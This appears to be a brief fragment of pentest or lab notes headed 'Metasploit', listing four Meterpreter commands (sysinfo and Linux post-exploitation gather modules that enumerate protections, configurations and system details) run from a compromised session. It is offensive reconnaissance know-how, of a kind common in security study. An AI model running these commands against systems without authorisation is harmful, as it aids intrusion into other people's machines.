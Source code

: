 # Metasploit

`meterpreter > sysinfo`

`meterpreter > run post/linux/gather/enum_protections`

`meterpreter > run post/linux/gather/enum_configs`

`meterpreter > run post/linux/gather/enum_system`